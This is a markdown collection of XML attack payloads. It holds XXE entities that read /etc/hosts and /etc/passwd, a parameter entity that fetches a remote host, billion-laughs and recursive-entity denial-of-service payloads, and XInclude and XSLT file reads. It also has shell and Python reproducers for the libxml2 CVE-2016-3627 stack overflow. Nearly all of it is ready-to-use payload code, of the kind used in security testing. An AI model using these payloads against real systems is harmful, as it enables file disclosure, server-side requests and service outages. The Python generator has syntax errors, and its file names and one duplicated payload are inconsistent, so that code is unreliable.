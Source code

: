 # XML Payloads
--------------------------------------

## XXE
1.
```
<?xml version="1.0"?>
<!DOCTYPE a [
 <!ENTITY b SYSTEM "file:///etc/hosts">
]>
<a>&b;</a>
```
2.
```
<?xml version="1.0" encoding="UTF-16"?>
<!DOCTYPE a [
 <!ENTITY b SYSTEM "file:///etc/passwd">
]>
<a>&b;</a>
```
3.
```
<?xml version="1.0" encoding="UTF-16"?>
<!DOCTYPE a [
 <!ENTITY b SYSTEM "file:///etc/passwd">
]>
<a>&b;</a>
```

4.
```
<?xml version="1.0"?>
<!DOCTYPE a [
 <!ENTITY % d SYSTEM "http:///hikerell.cn/index.html">
 %d;
]>
<a>&b;</a>
```
5.
```
<?xml version="1.0"?>
<!DOCTYPE b SYSTEM "http:///hikerell.cn/index.html">
<a>&b;</a>
```
6.
```
<!DOCTYPE data [
<!ELEMENT data (#ANY)>
<!ENTITY a0 "dos" >
<!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;">
<!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;">
]>
<data>&a2;</data>
```
7.
```
<!DOCTYPE data [
<!ENTITY a "a&b;" >
<!ENTITY b "&a;" >
]>
<data>&a;</data>
```
8.
```
<data xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include href="/etc/hosts"></xi:include></data>
```
9.
```
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
   <xsl:template match="/">
       <xsl:value-of select="document('/etc/hosts')">
   </xsl:value-of></xsl:template>
</xsl:stylesheet>
```

## CVE-2016-3627 (libxml2)
```
echo '<!DOCTYPE b [ <!ENTITY b "&b;"> ]> <b b="&b;">' | xmllint -recover -
echo '<!DOCTYPE b [ <!ENTITY b "&c;"> <!ENTITY c "&d;"> <!ENTITY d
"&b;">]> <test123="&c;">' | xmllint -recover -
```
Another vunlerability could cause stack overflow before libxml verify xml payload is invalid.
It is related to this cve.
```python
#!/bin/python3
f = open('repo.xml', 'w')
f.write( "<!DOCTYPE a [ ")
i = 1
while (i < 30000):
f.write ("<!ENTITY a" + str(i) + " "&a" + str(i+1) + ";">")
i = i+1
f.write("<!ENTITY a" + str(i+1) + " "&a1;">]> <bruces bogans="&a1;">")
f.close()
```
test with
```shell
python3 repoducer.py ; xmllint repo.xml
```
